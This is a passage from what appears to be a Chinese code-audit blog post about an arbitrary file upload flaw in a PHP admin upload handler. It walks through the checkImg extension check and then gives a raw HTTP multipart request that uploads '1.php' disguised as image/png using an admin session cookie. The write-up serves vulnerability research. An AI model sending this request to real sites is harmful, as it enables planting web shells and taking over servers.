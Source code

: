 check  
中比较关键的函数为checkImg  
，因为validate  
返回的也是空数组，所以就直接查看checkImg  
函数![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMCN8MfOJsv3QBXozdbg8n8Ohzictgib7NJJOekdw86xh3rD1m7icaZLjAQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMkmCATIOm7q9qdNWUFjat2nk6Y6WL9icOicrOMEv5DMX8D3jhJ4OiaAkmQ/640?wx_fmt=png&from=appmsg "")  
  
获取文件名的拓展名，并将其转换为小写，后续则判断拓展名是否在列表里，如果不在则跳出if  
循环，返回ture  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPM82OmAGn7g9TRWDvNdRtNmiamC1LPropYBysAwaWkIiakIWNjOZKYzSQw/640?wx_fmt=png&from=appmsg "")  
  
这里跳出if  
循环，返回ture  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMfXMuRyvTVHBcVe0VqVcXCg5vOGBhibfhvms7a1lZ7tUoSWM3l1uVs3g/640?wx_fmt=png&from=appmsg "")  
  
后续则构建文件保存名称，并生成完整文件路径。isTest  
为false，则利用move_uploaded_file  
函数上传  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMLwHXPa7omkVibGIl9cicXuzYbTMPRZXqH3gnYvzkuwf4usnke4yLxlug/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMJCkFQuC8IRXicUmlRTib9LY2IEllDtqWicFibddx93NrvzKoyAtdccibReg/640?wx_fmt=png&from=appmsg "")  
  
最终的payloay  
```
POST /admin/setup/editerweimapost.html HTTP/1.1Host: Content-Length: 68385Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymXZiZ0rlKaiFjPjOUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36Cookie: denglu=think:{"otype":"3","userid":"1","token":"3c341b110c44ad9e7da4160e4f865b63"}Connection: keep-alive------WebKitFormBoundarymXZiZ0rlKaiFjPjOContent-Disposition: form-data; name="erweima"; filename="1.php"Content-Type: image/pngphp------WebKitFormBoundarymXZiZ0rlKaiFjPjOContent-Disposition: form-data; name="id"1------WebKitFormBoundarymXZiZ0rlKaiFjPjO
```  
  
## 最后  
  
      写到这里，久久没有动笔，也不知道该说些什么，那就祝各位"  
Good afternoon, good evening, and good night"  
  
## 广告  
  
      帮朋友打个广告，有想学代码审计的可以加小朋友微信：echo_Ambition888  
  
  
  
